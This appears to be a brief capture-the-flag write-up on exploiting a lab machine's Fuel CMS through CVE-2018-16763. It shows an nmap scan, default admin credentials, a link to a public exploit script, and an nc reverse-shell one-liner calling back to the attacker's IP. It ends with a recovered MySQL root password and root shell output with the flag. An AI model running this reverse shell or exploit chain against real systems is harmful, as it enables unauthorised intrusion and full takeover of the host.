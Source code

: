 **Tristan Gomez**

 CVE-2018-16763
nmap
```
└─$ sudo nmap -Pn 10.10.202.5
[sudo] password for gomez22: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-20 12:02 PDT
Nmap scan report for 10.10.202.5
Host is up (0.19s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 49.31 seconds
```

`admin:admin`
`https://github.com/AssassinUKG/fuleCMS/blob/main/fuelCMS.py`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.248.108 1111 >/tmp/f`

```
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);

```

```
root@ubuntu:/var/www/html# whoami
root
root@ubuntu:/var/www/html# cat /root/root.txt
cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d 
root@ubuntu:/var/www/html# 
```
